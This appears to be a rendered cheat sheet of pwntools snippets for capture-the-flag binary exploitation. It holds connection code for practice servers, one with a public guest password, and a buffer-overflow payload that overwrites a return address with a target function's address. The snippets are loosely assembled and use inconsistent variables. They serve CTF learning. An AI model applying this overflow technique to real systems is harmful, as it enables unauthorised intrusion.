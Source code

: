 ```yaml
---


---
```


<p>**from pwn import ***</p>
<h3 id="nc-connect">nc connect</h3>
<p>p = remote(‘ctf.j0n9hyun.xyz’, 3006)<br>
e = ELF(’./64bof_basic’)<br>
callme = e.sym.callMeMaybe</p>
<h3 id="ssh-connect">ssh connect</h3>
<p>ssh = ssh(“unlink”, “<a href="http://pwnable.kr">pwnable.kr</a>”, port = 2222, password = “guest”)<br>
s = ssh.process("/home/unlink/unlink")<br>
e = ELF(’./unlink’)</p>
<h3 id="func-address">func address</h3>
<p>callme = e.sym.callMeMaybe</p>
<h3 id="make-payload">make payload</h3>
<p>payload = ‘’<br>
payload += ‘A’*3<br>
payload += p32(callme)</p>
<h3 id="recv-words">recv words</h3>
<p>s.recvuntil(": ")<br>
StackAdd = int(s.recv(10), 16)</p>
<h3 id="send-words">send words</h3>
<p>s.send(payload)</p>
<h3 id="end">end</h3>
<p>p.interactive()</p>


